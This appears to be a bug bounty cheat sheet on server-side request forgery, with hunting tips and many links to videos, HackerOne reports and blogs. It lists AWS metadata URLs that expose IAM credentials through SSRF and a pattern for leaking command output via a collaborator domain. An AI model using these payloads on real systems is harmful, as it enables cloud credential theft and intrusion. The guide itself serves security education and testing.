 # SSRF ( Server-Side-Request-Forgery)
* What's SSRF ??
   * SSRF is a type of exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessible to the attacker.

## Where to look for ??

1. If you got Open Redirect try escalating it to SSRF.

2. gf SSRF to grep parameters may vulnerable to SSRF.

3. SSRF's are more in API's so crawl the whole web app with burp proxy turned on and search for keywords like., eg :
```
?url=
?uri=
?req= 
etc.....
```
4. Sign up with an Email like blabla.collaborator.net. If u receive HTTP req. in collaborator then its SSRF. But if there's no impact Don't Report it :) DNS and SMTP req. Doesn't matters.

## AWS Metadata
Most of the sites use AWS nowadays...

* AWS localhost is 169.254.169.254 so don't use 127.0.0.1 there!

* If you found an SSRF vulnerability that runs on EC2, try requesting :
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
```
* Source: https://twitter.com/ADITYASHENDE17/status/1305051512335298562

## Escalation

* SSRF can be Escalated to RCE :) [Impact High] 
* `<os cmd>`.collaborator.net (thehackerish has a good video in it :)
* If there's no impact! on your SSRF rather than a redirect try to escalate it to XSS.

## Resources 💯
### Youtube
* https://www.youtube.com/watch?v=U0bPPw6uPgY&t=1s
* https://www.youtube.com/watch?v=324cZic6asE
* https://www.youtube.com/watch?v=o-tL9ULF0KI
* https://www.youtube.com/watch?v=324cZic6asE&t=751s
* https://youtu.be/m4BxIf9PUx0
* https://youtu.be/apzJiaQ6a3k
* [A New Era of SSRF](https://www.youtube.com/watch?v=R9pJ2YCXoJQ) by [Orange Tsai](https://blog.orange.tw/)

### Hackerone Reports
* https://hackerone.com/hacktivity?order_field=popular&filter=type%3Apublic&querystring=SSRF
* https://hackerone.com/reports/737161
* https://hackerone.com/reports/816848
* https://hackerone.com/reports/398799
* https://hackerone.com/reports/382048
* https://hackerone.com/reports/406387
* https://hackerone.com/reports/736867
* https://hackerone.com/reports/517461
* https://hackerone.com/reports/508459
* https://hackerone.com/reports/738553
* https://hackerone.com/reports/514224
* https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF
* https://hackerone.com/reports/341876
* https://hackerone.com/reports/793704
* https://hackerone.com/reports/386292
* https://hackerone.com/reports/326040
* https://hackerone.com/reports/310036
* https://hackerone.com/reports/643622
* https://hackerone.com/reports/885975
* https://hackerone.com/reports/207477
* https://hackerone.com/reports/514224

### Blogs
* https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978
* https://medium.com/@kapilvermarbl/ssrf-server-side-request-forgery-5131ffd61c3c
* https://medium.com/@zain.sabahat/exploiting-ssrf-like-a-boss-c090dc63d326
* https://medium.com/@chawdamrunal/what-is-server-side-request-forgery-ssrf-7cd0ead0d95f
* https://medium.com/swlh/ssrf-in-the-wild-e2c598900434
* https://medium.com/@briskinfosec/ssrf-server-side-request-forgery-ae44ec737cb8
* https://medium.com/@GAYA3_R/vulnerability-server-side-request-forgery-ssrf-9fe5428184c1
* https://medium.com/@gupta.bless/exploiting-ssrf-for-admin-access-31c30457cc44
* https://medium.com/bugbountywriteup/server-side-request-forgery-ssrf-f62235a2c151
* https://medium.com/@dlpadmavathi.us/ssrf-attack-real-example-a7279256abee
* https://blog.securityinnovation.com/the-many-faces-of-ssrf
* https://www.netsparker.com/blog/web-security/server-side-request-forgery-vulnerability-ssrf/
* http://www.techpna.com/uptzh/blind-ssrf-medium.html
* https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90
* http://institutopaideia.com.br/journal/blind-ssrf-medium-cfa769
* https://www.reddit.com/r/bugbounty/comments/cux2zs/ssrf_in_the_wild_the_startup_medium/
* https://www.sonrn.com.br/blog/5a44cc-blind-ssrf-medium
* https://ssrf-bypass-medium.thickkare.pw/
* https://hackerone.com/reports/326040
* https://www.zerocopter.com/vulnerabilities-price-list-printable
* https://medium.com/swlh/intro-to-ssrf-beb35857771f
* https://medium.com/poka-techblog/server-side-request-forgery-ssrf-attacks-part-1-the-basics-a42ba5cc244a
* https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-3-b0f5997e3739
* https://medium.com/bugbountywriteup/server-side-request-forgery-ssrf-testing-b9dfe57cca35
* https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-2-a085ec4332c0
* https://medium.com/bugbountywriteup/tagged/ssrf
* https://medium.com/seconset/all-about-ssrf-524f41ab96df
* https://blog.cobalt.io/from-ssrf-to-port-scanner-3e8ef5921fbf
* https://portswigger.net/web-security/ssrf
* https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery
* https://krevetk0.medium.com/ssrf-vulnerability-via-ffmpeg-hls-processing-f3823c16f3c7
* https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent

### Github Repos
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
* https://github.com/jdonsec/AllThingsSSRF

### Author:
* [@0xCyberPirate](https://twitter.com/0xCyberPirate)
* [0xrtt](https://twitter.com/0xrtt)

